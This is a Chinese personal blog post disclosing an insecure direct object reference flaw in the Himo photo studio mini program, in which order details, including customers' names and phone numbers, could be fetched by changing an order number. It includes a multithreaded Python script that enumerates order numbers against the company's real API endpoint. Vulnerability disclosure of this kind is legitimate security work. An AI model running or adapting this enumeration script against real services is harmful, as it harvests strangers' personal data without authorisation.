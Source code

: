 ```yaml
---
title: "Himo Mini Program Security Issues"
date: 2023-05-29T00:31:40+08:00
draft: false
tags: [Information Security, Himo]
---
```


> 因为预约了 6 月头在香港的 F1 签证，所以需要准备一张 **签证照**，在家这边的小城市，也没什么选择，没有 **天真蓝**，最好的就是 **海马体** 了。海马体生意还挺好，当天都约不到，只能约到 5 月 14 日星期天

在 2023 年 5 月 16 日我已经向海马体的技术团队提交了 **可能存在的安全问题**。直到今天（2023 年 5 月 29 日），我没有收到海马体技术团队的任何回信，我决定在我的个人博客公开。

我在拍完照之后，现场等待了一会，大概也就不到半个小时，小姐姐就基本上修好了，让我确认一下是否有需要修改的地方，没有的话就开始打印了。打印完之后，她告诉我电子版随时可以在 **海马体小程序** 随时下载。这一点我觉得非常方便。

晚上在家的时候，突然想到海马体小程序的这回事，我在想这些个人的照片应该是存储在 **OSS** 上的，但是我在想会不会有可能是订单号+编号这样子的文件名来存储的，简单说就是这个图片的链接是有规律的。如果真的是这样的话，我就可以轻松拿到所有用户的照片。

我在 iPhone 上开启了抓包，结果发现所有的照片的外链确实是固定的，只不过文件名是随机的一串字符串，似乎没有任何规律，应该就是完全随机的。然而有一个 API 会返回这个用户所有的照片的文件名，这个 API 传递的参数似乎没有类似于 **userID** 这类的参数，也就是说完全按照 **Cookie** 来判断哪位用户的。到这里，想拿到别的用户的照片外链的计划算是泡汤了。

我又想到因为每一次的照片肯定是和订单绑定的，也就是说一个 **签证照** 订单，理论上应该就固定的只有 4 张图。我又仔细地看了一下订单返回的参数，比较有价值的就是用户名、手机号这些，别的都是预约的门店、门店地址、门店联系电话、订单价格之类的一些东西。但是有一个意外的惊喜，我发现订单详情的 API 在 GET 请求的时候携带了 **orderNo** 参数，我赶紧使用 API 测试工具，发起了请求，把 **orderNo** 改一个数字，API 返回了 “订单不存在”。心里窃喜，竟然返回的是订单不存在，而不是无权限，说明我的 **Cookie** 应该可以查看别人的订单信息，我可以拿到任何注册 **海马体小程序** 用户的 **联系方式**。

我的订单的 **orderNo** 是 **T2023051413359999**，以首字母 T 开头，前 8 位是当天的日期，后面的 8 个纯数字应该是随机的，但是这难不倒我，手搓一个 **Python** 脚本，从 **00000000** 穷举到 **99999999** 不就完事了，在多线程的帮助下，简直是小菜一碟。

```python
# 这是示例代码，不能直接运行

import threading
import httpx

headers = {
	"app-key": "himo-wx-mini-program",
	"content-type": "application/json",
	"X-Stream-Id": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.37(0x18002528) NetType/WIFI Language/en",
	"Referer": "https://servicewechat.com/xxxxx/456/page-frame.html"
}

semaphore = threading.Semaphore(10)

def getOrderDetails(orderId):
	try:
		with semaphore:
			url = f"https://api-gateway.hzmantu.com/appointment_platform/order/order/order_detail?orderNo=T20230515{orderId}"
			resp = httpx.get(url=url, headers=headers)
			if resp.status_code == 200:
				with open("result.json", "a") as f:
					f.write(resp.text)
				print(resp.text)
	finally:
		semaphore.__exit__(None, None, None)
			
threads = []
for orderId in range(10013132, 99999999):
	thread = threading.Thread(target=getOrderDetails, args=(orderId,))
	thread.start()
	threads.append(thread)
	
for thread in threads:
	thread.join()
```

很快，Python 的程序跑出了结果，验证了我的猜想。来自 **武汉** 的一位幸运网友。（**为了保护他人隐私，已将关键信息打码**）

![202305295XA9GS](https://static.nisekoo.com/blog/202305295XA9GS.png)

我在 5 月 15 日凌晨发了一条朋友圈和微博，在微博艾特了 **缦图摄影** 和 **海马体照相馆**。很荣幸，在微博私信和我的邮箱都有工作人员联系我，下午醒来的时候我及时地回复了邮件，很遗憾的是过去了接近 2 周的时间，我没有收到任何回信，我不知道他们是修复了这个问题，还是说直接忽略了。之后我也没有再去验证。

![20230529fzK3kq](https://static.nisekoo.com/blog/20230529fzK3kq.png)

其实我写这篇博客，只是想分享这一段有趣的小研究，也算是为海马体做出一点点贡献。**海马体小程序** 其实只是一个很好的例子，其实他们并不是一家小公司，而是一家在中国大陆范围内规模挺大的公司。除了海马体，在过去的时间里我还有研究过很多类似的小程序，很遗憾，大部分小程序都没有在 **用户个人信息** 做到很好保护。